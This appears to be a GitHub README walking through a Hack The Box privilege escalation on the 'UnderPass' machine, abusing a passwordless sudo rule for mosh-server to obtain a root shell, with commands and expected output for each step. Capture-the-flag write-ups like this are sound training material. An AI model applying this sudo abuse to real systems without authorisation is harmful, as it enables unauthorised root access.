 # 🚀 mosh-server Privilege Escalation (UnderPass - HTB)

This repository explains how to exploit sudo privileges on /usr/bin/mosh-server to escalate privileges on the HTB machine Underpass.

## Privilege Escalation Steps

1️⃣ Check sudo permissions
Run the following command to list available sudo privileges:
```bash
sudo -l
```
Expected output:
```text
Matching Defaults entries for svcMosh on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User svcMosh may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/bin/mosh-serve
```

2️⃣ Start mosh-server as root
```bash
sudo -u root /usr/bin/mosh-server 0.0.0.0
```
This will return output similar to:
```text
MOSH CONNECT 60001 f0Cvz12Uxswra/0ls1kX7Q

mosh-server (mosh 1.3.2) [build mosh 1.3.2]
Copyright 2012 Keith Winstein <mosh-devel@mit.edu>
License GPLv3+: GNU GPL version 3 or later <http://gnu.org/licenses/gpl.html>.
This is free software: you are free to change and redistribute it.
There is NO WARRANTY, to the extent permitted by law.
```

3️⃣ Export the MOSH key
```bash
export MOSH_KEY=f0Cvz12Uxswra/0ls1kX7Q
```

4️⃣ Connect to the mosh session
```bash
mosh-client 127.0.0.1 60001
```

Once connected, you should now have a root shell! 🎉

---

⚠️ Disclaimer
This repository is for educational purposes only. Unauthorized access to systems is illegal. Use this knowledge responsibly.
